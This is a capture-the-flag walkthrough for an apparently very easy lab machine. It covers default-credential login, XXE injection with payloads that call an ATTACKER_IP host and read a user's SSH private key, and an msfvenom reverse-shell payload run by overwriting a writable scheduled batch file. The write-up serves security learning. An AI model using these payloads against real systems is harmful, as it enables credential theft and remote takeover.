


| Difficulty |  |  IP Address   |  |
| :--------: |--| :-----------: |--|
|  Very Easy |  |  10.129.59.3  |  |

---

### [ What version of Apache is running on the target's port 80? ]

Let's start off with a basic nmap scan on the target machine:

```
sudo nmap -sC -sV -vv -T4 10.129.59.3
```


From the results, we can see that 3 ports are open: **22 (SSH)**, **80 (HTTP)** and **443 (HTTPS)**

nmap also reveals the version of Apache running on HTTP: **2.4.41**

---

### [ What username:password combination logs in successfully? ]

Let's visit the HTTP website:



Looks like we have a simple login page. 

I did some quick manual enumeration of the site, looking at the source code and running a Gobuster directory scan. Unfortunately, I found nothing that I could use.

I then tried logging in with common credentials, eventually landing on one that worked:

> admin : password

---

### [ What is the word at the top of the page that accepts user input? ]

After logging in, we are brought to the following page:


Clicking around, we find a section of the website that accepts user input: **Order**


---

### [ What XML version is used on the target? ]

I tried submitting some test data and intercepting the request using Burpsuite:


We can see that the XML version is: **1.0**

---

### [ What does the XXE / XEE attack acronym stand for? ]

XML External Entity

---

### [ What username can we find on the webpage's HTML code? ]

If we take a look at the source code of the **Order** page, we can see an interesting name:


Looks like a potential username is: **Daniel**

---

### [ What is the file located in the Log-Management folder on the target? ]

From the intercepted request, we can see that the request is sending XML data. This means that it could potentially be susceptible to an XXE attack if the web server does not parse the XML data properly.

---

**More on XML and XXE:**

***XML** (extensible markup language) is a well defined, general purpose, data transfer language that's designed to facilitate the transfer of data from one system to another in a standard way. It allows a programmer to clearly define an object, that object's properties, and that object's properties' types in such a way that another system can easily parse that data back into an object on their system*

***XML entities** are a way of representing an item of data within an XML document, instead of using the data itself.*

***XML external entities** are a type of custom entity whose definition is located outside of the DTD (Document Type Definition) where they are declared. The declaration of an external entity uses the SYSTEM keyword and must specify a URL from which the value of the entity should be loaded. For example:*

```
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>
```

*The URL can use the file:// protocol, and so external entities can be loaded from file. For example:*

```
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///etc/hosts" > ]> 
```

***XML external entity injection (also known as XXE)** is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.* 

***Sources:*** 

*https://portswigger.net/web-security/xxe/xml-entities*

*https://portswigger.net/web-security/xxe*

---

Let's test if the **Order** page is susceptible to a XXE attack. 

*(XXE payloads can be found in [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection))*

I sent the intercepted request over to Burpsuite Repeater so that I can easily resend the request later on. Next, I modifed the request by defining the following XML external entity, '**test**':

```
<!DOCTYPE root [<!ENTITY test SYSTEM 'http://ATTACKER_IP:8000'>]>
```

Here's how the modified request looks like:


Notice how I called the XEE with `&test;` within`<item></item>`.

With a simple Python HTTP server up and running:


Nice, we can see that the XXE injection worked as we got a call back to my HTTP server!

After proving that the XXE vulnerability is present, we can try to read some files on the target machine. From Wappalyzer, I know that the target machine is running **Windows**, so we'll have to use Windows paths.


Instead of passing in a URL, we can read files on the filesystem using `file:///`.

Knowing that there is a user called **daniel** on the machine, perhaps we can try to read his private ssh key? To do so, let's try providing the following path when defining the XEE:

```
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/users/daniel/.ssh/id_rsa'>]>
```

This is how the modified request looks like:


I sent in the request and received the following response:


Great, we've now obtained daniel's private ssh key using XXE injection!

With this private key, we can log into daniel's account via SSH:


Navigating to the 'C' directory, we see an interesting directory called **Log-Management**:


There is a file called **job.bat** in this directory:


---

### [ What executable is mentioned in the file mentioned before? ]

We can look at the contents of the job.bat file by simply running `type job.bat`:



Looks like job.bat runs the executable: **wevtutil.exe**

*(wevtutil.exe allows us to retrieve information about event logs and publishers)*

---

### [ Submit user flag ]

The **user flag** can be found on the desktop directory of daniel:


---

### [ Submit root flag ]

From the contents of job.bat, we can tell that its main purpose is to clear event logs using `wevtutil`. We also need to be the Administrator in order to run the file.

To check whether we can move laterally to the Administrator's account, I first checked daniel's privileges:

```
whoami /priv
```


Hmmm, the privileges that daniel has doesn't seem very useful to us. 

Next, while we can't run job.bat directly, perhaps we can edit it? I checked the file's permissions using `icacls`:

```
icacls job.bat
```


Turns out **BUILTIN\Users** has **full access (F)** to job.bat! This means that daniel can write over the file as the BUILTIN\Users group represents all local users, which includes daniel as well. 

Since we can overwrite the contents of the file, we can modify it such that it executes a reverse shell script that we will be uploading. 

We can use `msfvenom` on our local machine to generate the reverse shell payload:

```
msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai LHOST=ATTACKER_IP LPORT=4444 -f exe -o shell.exe
```

I then transferred this reverse shell script over to the target machine (to **C:\Log-Management**).

Before we modify job.bat, we need to find a way to run it. We can't directly run it as we are not in the Administrator account but since the file clears event logs, maybe it's being run periodically?

To verify this, let's open Powershell and check running processes using `ps`:


We can see that `wevtutil` is being run! *(you might have to run `ps` a few times before catching this)* This proves that job.bat is indeed being run periodically.

With the reverse shell script successfully uploaded to **C:\Log-Management**, we can modify job.bat:

```
echo C:\Log-Management\shell.exe > C:\Log-Management\job.bat
```

This will replace job.bat with one single line: 

```
C:\Log-Management\shell.exe
```

What this does is that when job.bat is subsequently executed, it will in turn execute shell.exe, which is our reverse shell script.

I set up a netcat listener on my local machine and after some time, the reverse shell was opened.

*(Note: opening the reverse shell was a long and arduous process as job.bat was constantly being reverted back to its original state with its original contents. Hence, I had to keep modifying it until it was run at the perfect timing before it was reverted)*


The **root flag** can be found on the desktop of the Administrator user:


